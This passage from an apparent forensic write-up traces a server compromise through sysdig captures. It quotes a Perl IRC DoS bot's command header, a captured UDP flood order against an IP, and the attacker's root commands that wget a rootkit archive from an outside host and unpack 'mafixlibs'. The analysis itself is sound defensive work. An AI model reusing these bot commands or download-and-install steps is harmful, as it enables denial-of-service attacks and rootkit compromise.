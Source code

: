 ## !u !uejoin &lt;#channel&gt;        ## !u @udp3 &lt;ip&gt; &lt;port&gt; &lt;time&gt;              ##  !u @portscan &lt;ip&gt;                 ##
## !u !op &lt;channel&gt; &lt;nick&gt;      ## !u @tcp &lt;ip&gt; &lt;port&gt; &lt;packet size&gt; &lt;time&gt; ##  !u @mail &lt;subject&gt; &lt;sender&gt;       ##
## !u !deop &lt;channel&gt; &lt;nick&gt;    ## !u @http &lt;site&gt; &lt;time&gt;                   ##           &lt;recipient&gt; &lt;message&gt;    ##
...</code></pre>

Interesting... this turns out to be a perl DoS client that can be commanded from IRC, so the attacker could easily manage tons of these machines. I was also lucky enough that wget did 4KB I/O operations the whole time, so if I look through all the output I’m able to see the full sources exactly (truncated above). Reading through the header we’re able to see how this thing operates - it’s supposed to receive a `@udp` IRC message and then flood a victim with network traffic. Let’s see if someone sent it a command:

    $ sysdig -r trace.scap.gz -A -c echo_fds evt.buffer contains @udp
    ------ Read 67B from 170.170.35.93:39194->162.243.147.173:3132
    :x!~xxxxxxxxx@xxxxxxxxx.la PRIVMSG #nanana :!u @udp1 39.115.244.150 800 300

As you can see, the bot received a TCP connection (from its owner presumably), containing a command to attack IP 39.115.244.150 on port 800, which is the exact same IP and port we saw at the beginning in the connection list, flooded with hundreds of megabytes of traffic. This all makes sense! But the server attack didn’t stop there:

    06:13:11 root) wget xxxxxxxxx.xp3.biz/other/rk.tar
    06:13:12 root) tar xvf rk.tar
    06:13:12 root) rm -rf rk.tar
    06:13:12 root) cd /usr/sbin/rk
    06:13:17 root) tar zxf mafixlibs

What is this `mafixlibs`? Google says it’s some kind of rootkit, but I want to see what is contained in that tar file, so I’ll use sysdig again, asking what were the files written by that tar process:

    $ sysdig -r trace.scap.gz -c topfiles_bytes proc.name contains tar and proc.args contains mafixlibs
    Bytes     Filename
    ------------------------------
    207.76KB  /usr/sbin/rk/bin/.sh/sshd
    91.29KB   /usr/sbin/rk/bin/ttymon
    80.69KB   /usr/sbin/rk/bin/lsof
    58.14KB   /usr/sbin/rk/bin/find
    38.77KB   /usr/sbin/rk/bin/dir
    38.77KB   /usr/sbin/rk/bin/ls
    33.05KB   /usr/sbin/rk/bin/lib/libproc.a
    30.77KB   /usr/sbin/rk/bin/ifconfig
    30.71KB   /usr/sbin/rk/bin/md5sum
    25.88KB   /usr/sbin/rk/bin/syslogd
